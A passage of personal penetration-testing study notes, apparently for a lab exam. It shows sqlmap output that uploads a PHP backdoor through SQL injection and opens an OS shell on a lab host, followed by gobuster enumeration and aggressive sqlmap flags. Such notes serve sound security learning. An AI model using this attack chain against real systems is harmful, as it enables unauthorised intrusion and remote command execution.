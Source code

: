 ```
[14:20:49] [INFO] using '/var/www/html/tmp' as web server document root
[14:20:49] [INFO] retrieved web server absolute paths: '/var/www/html/search.php'
[14:20:49] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via LIMIT 'LINES TERMINATED BY' method
[14:20:50] [WARNING] unable to upload the file stager on '/var/www/html/tmp/'
[14:20:50] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via UNION method
[14:20:50] [WARNING] expect junk characters inside the file as a leftover from UNION query
[14:20:50] [INFO] the remote file '/var/www/html/tmp/tmpuqgek.php' is larger (713 B) than the local file '/tmp/sqlmapxkydllxb82218/tmp3d64iosz' (709B)
[14:20:51] [INFO] the file stager has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpuqgek.php
[14:20:51] [INFO] the backdoor has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpbetmz.php
[14:20:51] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

os-shell> pwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: '/var/www/html/tmp'
```
+ Once <mark style="background: #D2B3FFA6;">sqlmap</mark> confirms the vulnerability, it prompts us for the language the web application is written in, which is PHP in this case
+ Next, <mark style="background: #D2B3FFA6;">sqlmap</mark> uploads the webshell to the specified web folder and returns the interactive shell, from which we can issue regular system commands

#### Perquisite Information Gathering 
Should always do a gobuster scan that looks for specific file types with `-x`:
+ Example: `gobuster dir -u http://192.168.226.47 -w /usr/share/wordlists/dirb/big.txt -x pdf,txt`

#### Aggressive SQLi Identification 
Can increase the `level` and `risk` in order to potentially find more vulnerabilities:
```
--level=LEVEL       Level of tests to perform (1-5, default 1)
--risk=RISK         Risk of tests to perform (1-3, default 1)
```
+ This will take much longer to test, so should specify the dbms if possible with `--dbms`
	+ Example `--dbms=MSSQL` 
